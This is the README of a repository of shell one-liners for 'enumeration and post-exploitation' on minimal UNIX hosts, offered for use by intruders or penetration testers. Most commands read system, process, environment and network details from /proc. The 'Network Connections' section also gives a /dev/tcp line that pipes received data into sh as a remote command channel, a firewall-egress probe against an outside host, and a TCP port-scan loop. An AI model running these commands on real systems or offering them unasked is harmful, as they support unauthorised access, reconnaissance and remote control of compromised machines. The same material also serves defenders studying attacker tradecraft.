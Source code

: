 # lcdbins

An **lcdbin** is a lowest-common denominator binary - one which, with rare exceptions, should be present on any UNIX-based operating system. This repository is a collection of oneliners that use lcdbins to perform enumeration and post-exploitation activities that you'd normally use other tools for - such as id, netstat or python. Use them when you find yourself in a stripped-down environment where the usual tools aren't available.

Here is a list of the binaries used by the oneliners in this repository:

- awk
- bc
- cat
- echo
- grep
- ls
- printf
- read
- sed
- sort

Where possible alternatives have been provided in case one binary is unavailable on your specific system. Greetz to moogz for assistance and contributions.

## System Enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo uid $uid gid $gid
```

Get group membership for uid

```shell
uid=1000; user=$(awk -F : -v x="$uid" '{if($3==x) print $1}' /etc/passwd); grep $user /etc/group
```

List environment variables

```shell
 sed 's/\0/\n/g' /proc/self/environ
 ```

List information about processes

```shell
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "name:") print $2 }'); uid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo $pid $name $uid $gid; done;
```

List mounted filesystems

```shell
cat /proc/mounts
```

## Network Enumeration

Get local network interface addresses from /proc/net/fib_trie

```shell
awk '/32 host/ { print f } {f=$2}' /proc/net/fib_trie | sort -u
```

Parse listening TCP ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do printf "%d\n" "0x$i"; done | sort -un
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse listening UDP ports on /proc/net/udp

```shell
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do printf "%d\n" "0x$i"; done | sort -un
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## Network Connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

## Miscellaneous

Get all IP addresses in a directory

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

